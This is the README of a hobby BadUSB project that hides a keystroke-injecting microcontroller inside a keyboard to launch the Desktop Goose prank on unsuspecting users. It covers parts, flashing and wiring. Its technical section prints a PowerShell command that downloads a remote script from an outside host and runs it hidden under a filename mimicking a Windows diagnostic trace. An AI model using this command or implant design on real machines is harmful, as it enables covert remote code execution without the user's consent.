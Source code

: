 # KeyGoose
###### Hacked By Me [Video 1](http://KeyGoose.HackedBy.Me "Video 1") Code
------------
##### KeyGoose is a fun implementation of a BadUSB, where a keyboard is "hacked" by wiring a microcontroller with custom firware to the inside of the keyboard. The microcontroller is designed to randomly deliver a payload (in the form of the [Desktop Goose Game](https://samperson.itch.io/desktop-goose "Desktop Goose Game")) to unsuspecting users in only 2.25 seconds.
------------
### What's Included in this Repository?
- A KeyGoose Parts List
- Written instructions as to how to create your own KeyGoose
- A technical explanation of how KeyGoose works
- The KeyGoose code (both the Driveby and Keyboard implementation) with which to flash the microcontroller
- The powershell script fetched and run by the KeyGoose upon payload injection

## Parts List
- A USB Keyboard
	- I recommend getting the cheapest keyboard you can find on Amazon. Not only will this bring-down the cost, but the cheaper keyboards tend to be more maleable and made of a weaker plastic, making the keyboard easier to manipulate when it comes to squeezing-in the microcontroller.
	- I also found that getting a keyboard that has a battery option was ideal, as it left a nice, open area in which to embed the microcontroller.
- A MicroController with USB Support
	- Any microcontroller should do, as long as it is small-enough and supports USB. In this project, I used a *Beetle ATmega32u4 Development Board*
- General Tools
	- Raspberry Pi with GPIO wires
		- You may use any other preferred method to flash the microcontroller, this is simply the option I went with, and will be explaining here.
	- Solder/Soldering Iron
	- Screw Driver
	- File Set
	- 26 AWG Wire
	- Wire Stripper

## Instructions
1. Flash the microcontroller with the provided code
1. Open the keyboard and wire the microcontroller to the controller in the Keyboard
1. Enjoy!

##### Step 1
Depending on where you bought your microcontroller, it may already come with a bootloader installed. For the purposes of this project, we're going to need to get rid of the bootloader, and flash the microcontroller with our code directly. In order to do so, you'll need to get some breadboard jumper wires and a Raspberry Pi.
> Please note: There are many other ways to flash the microcontroller, so if you'd prefer to use another method, feel free to do so!

In order to begin flashing the microcontroller with the Raspberry Pi, it's important to first identify the correct General Purpose Input Output pins to use. Lookup the pinout diagram for your microcontroller. The pinout of the Raspberry Pi can be found [here](https://pinout.xyz/# "here"). If you are using the Beetle that I used, then you may use the image below as a reference. I also found [this online article](https://ozzmaker.com/program-avr-using-raspberry-pi-gpio/ "this online article") to be extremely helpful.

![Raspberry Pi GPIO Photo](https://raw.githubusercontent.com/NoahTroy/KeyGoose/master/Raspberry%20Pi%20GPIO%20Photo.jpg "Raspberry Pi GPIO Photo")

Once we have the wiring all set, our next step is to dowload and install *avrdude* on the Raspberry Pi. This can be done by running:
`sudo apt install avrdude`
Now that avrdude is installed, it's important to edit the configuration file to support flashing over GPIO. Open the configuration file (`sudo nano /etc/avrdude.conf`) and find the commented-out programmer section with the ID: "linuxgpio". You're going to want to uncomment this entire section and replace the question marks with the values 4, 11, 10, and 9, in that order, to tell avrdude which GPIO pins to use. The uncommented section should now look like this:
```
programmer
  id    = "linuxgpio";
  desc  = "Use the Linux sysfs interface to bitbang GPIO lines";
  type  = "linuxgpio";
  reset = 4;
  sck   = 11;
  mosi  = 10;
  miso  = 9;
;
```
At this point, we are ready to flash the microcontroller. I was using an ATmega32U4 (the Beetle). If you are as well, then the following command should work just fine. If not, then make sure to modify the command appropriately for your hardware:
`sudo avrdude -c linuxgpio -p atmega32u4 -v -U flash:w:KeyGoose.hex`
If you wish to flash the Driveby version of KeyGoose, be sure to replace `KeyGoose.hex` with `DrivebyGoose.hex`, in the command above.
Congratulations, you have now successfully flashed the microcontroller!

##### Step 2
Before I share how I went about wiring the Keyboard and the microcontroller together, let me be clear: *I am not an electrical engineer. I can almost guarantee you that there is probably a better, more-technical way to do this. Although everything ended-up working fine for me, there's always the chance that this could be harmful to your devices. Proceed at your own risk.*

Alright, before we get to any of the soldering, the most important thing is to carefully open-up the keyboard, and identify where the USB controller is. Make sure you're looking for the point where the USB cable is *first* soldered into the PCB. For your sake, hopefully the keyboard manufacturer followed standards, labeling their PCB and correctly color-coding the wires. Right now, your job is to figure out which of the four solder points matches with which of the four (USB) pins on your microcontroller. If you're having trouble figuring it out, [this article](https://www.electroschematics.com/usb-how-things-work/ "this article") may help. You may also rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
After you're certain that you have the correct match-up, strip the USB cabling and solder each of the four wires to the microcontroller, and the other ends to the corresponding point on the PCB. Once again, feel free to rewatch the [YouTube video](http://KeyGoose.HackedBy.Me "YouTube video") to see how I did it.
Finally, use the files to grind-out a spot within the keyboard to place the microcontroller. If you managed to get a keyboard that supports a battery, I recommend placing the microcontroller there, as there should be plenty of room, and you won't obstruct the normal operation of the keyboard.

##### Step 3
Enjoy! Just make sure that if you decide to use this keyboard to prank friends, family, or others, you do so responsibly. Make sure you always have the necessary permissions first, for if used improperly, you could have hacking charges filed against you.

## How Does KeyGoose Work?

KeyGoose works by emulating a USB Keyboard, and injecting keystrokes very quickly into the host computer at a designated time. Below, I'll outline the exact process that KeyGoose takes:
1. The keyboard emulation code initializes, and prepares itself to inject key presses.
1. A random seed is gathered by adding together the analog sensor values from A0 and A1.
1. A random value between 1 and 6 is generated. If the value is equal to 3, the code continues. If not, the program waits 30 minutes, before restarting from the beginning. This gives the code only about a 15% chance of running every 30 minutes and/or every time the user boots their computer.
1. If the program continued, a random time delay is generated between 4 and 20 minutes long. This time delay gives the computer time to finish booting, and maintains inconsistency, to further confuse the user.
1. After the time delay, the microcontroller sends the payload, disabling the actual keyboard while it does so.
	- The payload sent is a series of key combinations to open powershell as an administrator, and then run the following command:
	- `Set-ExecutionPolicy RemoteSigned -Force; cd C:\Windows\Temp; echo "Invoke-Expression 'curl https://KeyGoosePS1.HackedBy.Me -o d7893c3e.ps1; & .\d7893c3e.ps1; C:\Windows\Temp\tw-9dc-75c-5c965a3.tmp\DesktopGoose.exe; exit'" > DiagTrack_AlternativeTrace.ps1; start-process PowerShell.exe -arg $pwd\DiagTrack_AlternativeTrace.ps1 -WindowStyle Hidden; exit`
	- This command essentially downloads the PowerShell script into the Temp directory, gives it the necessary permissions to run, then runs it. This command is designed to be exeuted in the background though, so that the PowerShell window may be closed immediately, instead of having to wait on the download and execution of the script.
